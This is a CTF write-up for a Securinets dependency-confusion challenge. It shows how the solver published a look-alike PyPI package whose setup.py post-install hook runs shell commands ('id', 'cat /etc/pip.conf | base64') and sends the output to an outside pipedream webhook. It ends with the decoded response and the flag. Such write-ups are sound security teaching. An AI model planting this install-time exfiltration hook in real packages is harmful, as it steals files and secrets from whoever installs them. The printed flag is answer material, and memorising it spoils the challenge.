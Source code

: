 # Hack The Empire

## Description

An enemy of The Empire have a job for you. As an adversary he want to hack CTFQ21EmpireTmp. He heard that in their server is hosting their holy flag in /flag.txt

No IP address is needed in this task. Good luck.

̿̿ ̿̿ ̿̿ ̿'̿'\̵͇̿̿\з= ( ▀ ͜͞ʖ▀) =ε/̵͇̿̿/'̿'̿ ̿ ̿̿ ̿̿ ̿̿

Important: Whatever was the solution that you're going to adopt, if you want to use webhooks, DO NOT USE any of those that allows other participants to see the flag (don't use webhook.site, you may let other participants to catch the flag from there) (for example you can use requestbin instead of webhook.site since the flag can be seen by the authenticated user). Think about using a method that will not leave anybody else to read the flag from your steps. And don't forget to remove your work after you solve the task to avoid anybody else to steal it.

Hint 1: find the original web page (in the original website) that was sharing what you've found since that page is not updated

Author: TheEmperors

## Solution

A quick Google search leads us to this blog post: https://ittone.ma/ittone/is-there-any-limit-in-pythons-requirements-txt-during-the-installation/

![Blog Post](./resources/blog.png?raw=true)

We can gather that the company is downloading packages from a private repository that match the following regex: `ctf_q21_empire_tmp_[a-z0-9_]{5,10}`

They also reveal the structure of their `pip.conf` file:

```
[global]
extra-index-url = http://<private_IP_and_port>/simple/
trusted-host = <private_IP>
```

Due to the behaviour of the `extra-index-url` option, pip will search their private repository in addition to the public repository, prioritizing them based on version number.

Therefore, we can trick the server into downloading a mallicious package by creating one that matches the regex with a sufficiently high version number.
We care told the location of the flag file, so we can read the flag as part of the install script.
To retreive the contents, we can use an http request containing the contents encoded in base64.

Additionally, if we search for the start of the regex, we find a removed package on PyPI, uploaded by TheEmperors.
Using Google's webcache feature, we can examine the repository despite it being removed:

https://webcache.googleusercontent.com/search?q=cache:N6A2lqcEQtcJ:https://pypi.org/project/ctf-q21-empire-tmp-bw13434/0.0.9/+&cd=1&hl=en&ct=clnk&gl=ca&client=firefox-b-d

We can download the contents of this package and modify it to work with out exploit.
The latest version of the package is [ctf-q21-empire-tmp-bw13434-0.0.9.tar.gz](./ctf-q21-empire-tmp-bw13434-0.0.9).

Let's examine the `setup.py` script:

```py
from setuptools import setup
import os
from setuptools.command.install import install

setup(
    name='ctf-q21-empire-tmp-bw13434',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    )

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://ene63d9dv33i6ch.m.pipedream.net/?hehe="+os.popen("id").read()) #cat /flag.txt | base64").read())
```

The `setup` call appears ordinary, however, there is an http request within the `PostInstallCommand` function.
We can see that it sends a request to a webhook containing the output of `id`.
Also, contained in a comment is a command that conveniently reads the flag file and converts it to base64.
We can modify this function to send the flag instead of the id, and we change the first request parameter to send it to a webhook controlled by us.
Importantly, we have to move the function declaration to above the call to `setup`, otherwise it will not be defined during the setup and thus will not be run.

I also changed the name of the package in hopes that it would not overlap with another package of theirs with a greater or equal version.
The package is relatively small, so all other files were updated to match the new package name.

## Exploit

```py
from setuptools import setup
import os
from setuptools.command.install import install

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://enc2i9ljmjy100e.m.pipedream.net/?hehe="+os.popen("cat /etc/pip.conf | base64").read())

setup(
    name='ctf-q21-empire-tmp-1337420',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    cmdclass={
        'install': PostInstallCommand,
        },
    )
```

Within 5 minutes, we get a request with some data encoded in base64:

```
VGhpcyBpcyB3aGF0IHdlIGNhbGwgJ0RlcGVuZGVuY3kgY29uZnVzaW9uJ1xudGhhdCBpcyB3ZWxs
IGV4cGxhaW5lZCBoZXJlICh0aGlzIGlzIG5vdCBteSBhcnRpY2xlIGJ1dCBJIGxpa2VkIGl0KSBo
dHRwczovL21lZGl1bS5jb20vQGFsZXguYmlyc2FuL2RlcGVuZGVuY3ktY29uZnVzaW9uLTRhNWQ2
MGZlYzYxMCAuXG4gV2hpY2ggaXMgcGFydCBvZiB0aGUgT3BlbiBTb3VyY2UgU29mdHdhcmUgU3Vw
cGx5IENoYWluIEF0dGFja3MuXG5GbGFnOiBTZWN1cmluZXRze0QzUDNOZDNuY3lfQzBuRnU1IW5f
eERfd2VyZV95b3VfY29uZnVzZWRfZW5vdWdofVxuV2UgZGlkbid0IHdhbnQgdG8gbWFrZSBpdCBt
b3JlIGRpZmZpY3VsdCB0byB0YWtlIGluIGNvbnNpZGVyYXRpb24gd2hhdCBhbGwgdGhlIHRlYW1z
IG5lZWQgYXMgcmVxdWlyZW1lbnRzLiBUaGlzIGlzIHdoeSBmb3IgdGhlIHRpbWUgYmVpbmcgd2Ug
YXJlIG5vdCByZXF1ZXN0aW5nIGRpZmZpY3VsdCB0YXNrIChqdXN0IHJlYWQgdGhpcyBmaWxlIGlz
IGVub3VnaCkgYnV0IHRoZSBtaXNzY29uZmlndXJhdGlvbiBoZXJlIGlzIHRpZWQgd2l0aCB0aGUg
LS1leHRyYS1pbmRleC11cmwuIFlvdSBjYW4gY2hlY2sgdGhlIC9ldGMvcGlwLmNvbmYgaWYgeW91
IGFyZSBjdXJpb3VzIHRvIHNlZSBpZiB0aGlzIGlzIGEgcmVhbCB0YXNrIG9yIHdhcyBpdCBmYWtl
ZC4=
```

Which can be decoded into:

```
This is what we call 'Dependency confusion'\nthat is well explained here (this is not my article but I liked it) https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610 .\n Which is part of the Open Source Software Supply Chain Attacks.\nFlag: Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}\nWe didn't want to make it more difficult to take in consideration what all the teams need as requirements. This is why for the time being we are not requesting difficult task (just read this file is enough) but the missconfiguration here is tied with the --extra-index-url. You can check the /etc/pip.conf if you are curious to see if this is a real task or was it faked.
```

## Flag

`Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}`

